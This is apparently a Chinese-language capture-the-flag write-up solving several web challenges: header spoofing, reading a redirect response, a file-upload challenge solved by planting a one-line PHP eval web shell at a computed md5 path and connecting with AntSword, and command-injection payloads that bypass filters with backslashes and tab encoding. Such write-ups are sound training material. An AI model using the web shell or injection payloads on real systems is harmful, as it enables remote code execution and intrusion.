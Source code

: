 ![](https://gitee.com/SSSSSHONE/ss/raw/master/20241109163441.png)  
### 25时晓山瑞希生日会
按照题目要求,依次在http请求头加上:    
```http
User-Agent: Project Sekai
X-Forwarded-For: 127.0.0.1
Date: Sun, 27 Aug 2024 05:00:00 GMT
```
最后的时间需要尝试,本来以为时题目提示的`9.15`浪费了很长时间,尝试出的时间是`8.27`,传入得到flag  
![](https://gitee.com/SSSSSHONE/ss/raw/master/20241109165142.png)    
### 小蓝鲨的秘密
开启抓包，进入题目环境会进行302跳转，查看`Response`得到flag  
![](https://gitee.com/SSSSSHONE/ss/raw/master/20241109190907.png)  
### UP!UPloader
本题文件上传但并不过滤内容,`.php`文件也可以正常上传，但是上传后不会告诉你文件位置，需要我们想办法，上传后提示`include.php`  
![](https://gitee.com/SSSSSHONE/ss/raw/master/20241109194808.png)  
访问发现可以进行文件包含,我们使用php伪协议来读取源码看看能否找到上传后的文件位置  
![](https://gitee.com/SSSSSHONE/ss/raw/master/20241109195023.png)  
解码后得到源码:  
```php
<?php
error_reporting(0);
$file = $_FILES['file'];
if (isset($file) && $file['size'] > 0) {
    $ext = pathinfo($file['name'], PATHINFO_EXTENSION);
    $name = pathinfo($file['name'], PATHINFO_FILENAME);
    $dir_name = $name . '.' . $ext;
    $upload_dir = './uploads/';
    if (!is_dir($upload_dir)) {
        mkdir($upload_dir, 0755, true);
    }
    if (move_uploaded_file($file['tmp_name'], $upload_dir . md5($dir_name) . '.' . $ext)) {
        echo "文件上传成功！不过文件路径可不好找呀~什么？什么include.php？我不知道啊。" ;
    } else {
        echo "文件存储失败，未知原因......";
    }
    die();
}
?>
```
根据源码我们直到:
- 文件被保存在了当前目录下的`uploads`文件夹内  
- 文件的名字为md5加密后的文件名加上原有文件后缀（注意是md5加密的是全部文件名，包括后缀在内）  
我们上传一句话木马`c.php`,内容如下:  
```php
<?php
@eval($_REQUEST['c']);
?>
```
`c.php`md5加密后为`9981df88104befcd5f1e87e4a8c07a84`，所以新文件路径为`uploads/9981df88104befcd5f1e87e4a8c07a84.php`,用蚁剑连接`http://27.25.151.12:34327/uploads/9981df88104befcd5f1e87e4a8c07a84.php`,最后在环境变量里发现flag    
![](https://gitee.com/SSSSSHONE/ss/raw/master/20241109195655.png)    
### ezrce
`?cmd=printf(`l\s%09/`);`
`?cmd=printf(`c\at%09/*lag`);`
